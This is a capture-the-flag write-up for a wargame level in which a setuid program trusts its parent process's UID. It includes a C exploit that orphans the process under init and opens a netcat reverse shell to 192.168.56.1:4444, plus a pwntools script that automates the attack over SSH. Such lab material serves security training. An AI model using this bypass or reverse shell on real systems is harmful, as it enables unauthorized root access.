

# Level 19

## Discription

> There is a flaw in the below program in how it operates. \
\
> To do this level, log in as the level19 account with the password level19. Files for this level can be found in /home/flag19.

## Source Code

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
      printf("Unable to check parent process\n");
      exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
      /* If root started us, it is ok to start the shell */

      execve("/bin/sh", argv, envp);
      err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```

## Solution

This challenge is simple, program checks if the parent process that is running the program has UID 0 or not.

```C
int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
      printf("Unable to check parent process\n");
      exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
```

and if UID is 0 then it executes /bin/sh with arguments passed to the program.

```c
execve("/bin/sh", argv, envp);
err(1, "Unable to execve");
```

So we can create a [orphan process](https://en.wikipedia.org/wiki/Orphan_process) i.e if we kill the parent process and child process is still running then the child process get assigned to init process that has PID 1 and init process runs with UID 0 permission.

So we will do the same with a C program.

```C
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main(int argc, char **argv, char **envp){
        int child;
        child = fork();
        if(child >= 0){	
            if(child == 0){
                sleep(1);
                setresuid(geteuid(),geteuid(),geteuid());
                char *args[] = {"/bin/sh", "-c", "nc.traditional 192.168.56.1 4444 -e /bin/sh", NULL};
                execve("/home/flag19/flag19", args, envp);
            }
        }
        exit(0);
}
```



## Python

```python
#!/usr/bin/python3

from pwn import *
from sys import argv,exit
from time import sleep

if len(argv) < 2:
	sys.exit(f"{argv[0]} Target_IP") 

exploit = '''#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main(int argc, char **argv, char **envp){
        int child;
        child = fork();
        if(child >= 0){
            if(child == 0){
                sleep(1);
                setresuid(geteuid(),geteuid(),geteuid());
                char *args[] = {"/bin/sh", "-c", "nc.traditional 192.168.56.1 4444 -e /bin/sh", NULL};
                execve("/home/flag19/flag19", args, envp);
            }
        }
        exit(0);
}'''

file = open('/tmp/exploit.c','w')
file.write(exploit)
file.close()

level19 = ssh(host=argv[1],user='level19',password='level19')
level19.upload_file('/tmp/exploit.c',remote='/tmp/exploit.c')
level19_shell = level19.shell('/bin/sh')
level19_shell.sendline('gcc /tmp/exploit.c -o /tmp/explit')
netcat = process(['nc','-nvlp','4444'])
level19_shell.sendline('/tmp/exploit')
sleep(1)
netcat.sendline('getflag')
netcat.interactive()
```
